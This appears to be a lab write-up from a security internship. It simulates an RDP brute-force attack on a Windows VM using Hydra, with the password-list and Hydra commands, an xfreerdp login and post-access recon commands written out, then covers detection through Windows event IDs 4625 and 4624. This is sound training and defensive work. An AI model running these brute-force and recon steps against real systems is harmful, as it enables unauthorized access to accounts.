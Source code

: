 # Scenario 2: Lateral Movement via RDP Brute Force

## ✅Simulated Activity:
Simulated brute-force login attempts over Remote Desktop Protocol (RDP), and investigated for signs of lateral movement and reconnaissance.

---

## Attack Simulation

### Step 1: Enable RDP Access on Target
```powershell
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
```

### Step 2: Brute-force Using Hydra (Kali)
```bash
echo -e "123456\nadmin\npassword\nAdmin123" > passlist.txt
hydra -t4 -V -f -l Administrator -P passlist.txt rdp://<Win10-IP>
```
![](https://github.com/alj-v/cyber-intern-phase-3/blob/main/screenshots/hint02_lateral_movement_brute%20force_attack.png)

![](https://github.com/alj-v/cyber-intern-phase-3/blob/main/screenshots/hint02_lateral_movement_brute_force_logs.png)

![](https://github.com/alj-v/cyber-intern-phase-3/blob/main/screenshots/hint02_lateral_movement_brute_force_after_ac_lockout.png)

### Step 3: After finding the correct password access Remote Desktop
```bash
xfreerdp /u:<username> /p:<correct_password> /v:<Win10-IP>
```

### Post-Access Recon Simulation
Executed as simulation of attacker post-access:
```powershell
whoami /all
quser
net user
ipconfig /all
```

![](https://github.com/alj-v/cyber-intern-phase-3/blob/main/screenshots/hint02_lateral_movement_rdp_accessed.png)

> During brute-force simulation using Hydra, account lockout policy was triggered after multiple invalid attempts (41 total), as confirmed in Event Viewer logs (4625). Subsequent connection attempts failed, accurately reflecting Windows default security posture. This proves the realism of the simulation and how endpoint systems enforce threshold policies against brute-force lateral movement.

## Detection
- Windows Event Viewer
 - Event ID 4625: Failed login
  - and account lockout 
 - Event ID 4624: Successful login
 - Logon Type: 10 = RDP
 - Multiple failures logged from Kali IP = Brute force attack simulation

![](https://github.com/alj-v/cyber-intern-phase-3/blob/main/screenshots/hint02_lateral_movement_rdp_log.png)

### # Notes:
- Only one Windows VM used. Lateral movement was conceptual
- Hydra successfully simulated real-world credential brute-force via RDP
- Hit a realistic lockout threshold
- Observed 4625 logs
- Learned that real systems fight back when brute-forced

Interview Notes:  
Q: How do you detect RDP brute-force attacks?  
A: Monitor Event ID 4625 with LogonType = 10. Correlate repeated failures from a single source IP. Use Sysmon + SIEM for network and process telemetry.
